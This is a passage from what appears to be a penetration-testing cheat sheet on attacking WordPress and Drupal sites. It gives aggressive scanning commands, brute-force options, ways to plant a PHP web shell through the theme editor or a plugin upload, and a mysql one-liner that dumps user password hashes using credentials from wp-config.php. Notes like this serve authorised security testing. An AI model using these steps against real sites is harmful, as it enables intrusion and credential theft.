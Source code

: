 ```sh
#     Be a bit more stealthy
# --update
#     update the WPScan database before scanning

# username / password bruteforce possible
# -U, --usernames LIST
#     LIST of usernames and/or files w/ usernames to try. e.g. admin,users.txt
#     Will auto-enum users if -U not supplied
# -P, --passwords FILE-PATH
#     path to password file for brute force

# aggressive scan:
wpscan --update \
       --random-user-agent \
       --enumerate ap,at,cb,dbe,u \
       --detection-mode aggressive \
       --plugins-detection aggressive \
       --plugins-version-detection aggressive \
       --url http://$VICTIM_IP/

# scan with cmsmap (https://github.com/Dionach/CMSmap):
cmsmap -o cmsmap.txt -d http://$VICTIM_IP
```

Also try logging into the Wordpress admin page (`/wp-admin`).

If you can log in, you can update the page template to get code execution. Appearance → Editor → 404 Template (at the right), add a PHP shell.

After admin portal login, also try plugin upload to add a web shell/known vulnerable plugin. Remember to activate plugin after install.

[WordPress Plugin Webshell](https://github.com/p0dalirius/Wordpress-webshell-plugin) - accessible via `/wp-content/plugins/wp_webshell/wp_webshell.php?action=exec&cmd=id`

Maybe upload Media file that has PHP script?

Post exploit: The `wp-config.php` file contains information required by WordPress to connect to the database (credentials).

```bash
# Extract usernames and passwords:
mysql -u USERNAME --password=PASSWORD -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Check [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress) for more.


### 2.6.9 Drupal

```sh
droopescan scan drupal http://$VICTIM_IP -t 32 # if drupal found
```
